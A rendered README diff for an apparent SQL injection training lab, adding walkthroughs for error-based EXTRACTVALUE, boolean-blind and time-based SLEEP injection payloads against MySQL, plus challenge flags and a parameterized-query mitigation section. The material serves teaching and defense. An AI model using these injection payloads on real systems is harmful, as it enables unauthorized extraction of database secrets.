

Before and after one commit to souladitya087/SQLi-AttackLab-MySQL, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs(module3): add exploitation walkthroughs and mitigation analysis to readme
- Add detailed walkthroughs for XPath error injection (Scenario 3.1)
- Document boolean-based binary search character extraction (Scenario 3.2)
- Detail asynchronous time-based side-channel latency testing (Scenario 3.3)
- Explain MySQL 32-character disclosure windowing and parameterized mitigations

````diff
--- a/README.md
+++ b/README.md
@@ -180,6 +180,36 @@ The laboratory provisions a dedicated, segregated MySQL database (`sqli_lab_db`)
     ```
   * Awards: `FLAG{mysql_information_schema_exfiltration_pwned}`.
 
+### Module 3: Error-Based & Blind/Time-Based Inference Lab
+* **Scenario 3.1: XPath Syntax Error Disclosure (`EXTRACTVALUE` / `UPDATEXML`)**:
+  * Trigger MySQL Error 1105 by passing an invalid XPath expression starting with a non-XPath token (`0x7e` / `~`):
+    ```sql
+    admin' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version), 0x7e)) --
+    ```
+  * MySQL parses the subquery, encounters syntax error `XPATH syntax error: '~8.0.46~'`, and reflects query results inside the error message.
+  * Extract confidential flag from `system_secrets` (handling MySQL's 32-character buffer truncation with `SUBSTRING()` windowing):
+    ```sql
+    admin' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT secret_value FROM system_secrets WHERE secret_name='FLAG_BLIND_EXPLOIT'), 0x7e)) --
+    ```
+* **Scenario 3.2: Boolean-Based Blind Inference Oracle**:
+  * Turn the user lookup query into a True/False oracle when error output and result projections are disabled:
+    ```sql
+    admin' AND ASCII(SUBSTRING((SELECT database()), 1, 1)) = 115 --
+    ```
+  * Predicate evaluations:
+    * `TRUE`: MySQL returns the user record (1 row).
+    * `FALSE`: MySQL returns empty results (0 rows).
+  * Algorithmic binary search (`ASCII(...) > 100`) extracts characters in $\approx 7$ requests per character.
+* **Scenario 3.3: Time-Based Side-Channel Delays (`SLEEP()` & `BENCHMARK()`)**:
+  * Precision latency testing for completely blind targets where response content is completely uniform:
+    ```sql
+    admin' AND IF(ASCII(SUBSTRING(database(), 1, 1)) = 115, SLEEP(2), 0) --
+    ```
+  * If the condition is `TRUE`, MySQL pauses for 2 seconds (response latency $> 2000$ ms); if `FALSE`, it completes immediately ($< 50$ ms).
+* **Scenario 3.4: Challenge Flag Harvest & Parameterized Defense**:
+  * Exfiltrate the challenge flag: `FLAG{mysql_blind_and_error_inference_pwned}`.
+  * Switch to Remediated Mode to verify how parameterized queries treat `EXTRACTVALUE(...)` and `SLEEP(...)` strictly as literal strings, neutralizing all inference channels.
+
 ---
 
 ## 🛡️ Mitigation Analysis: Prepared Statements
````
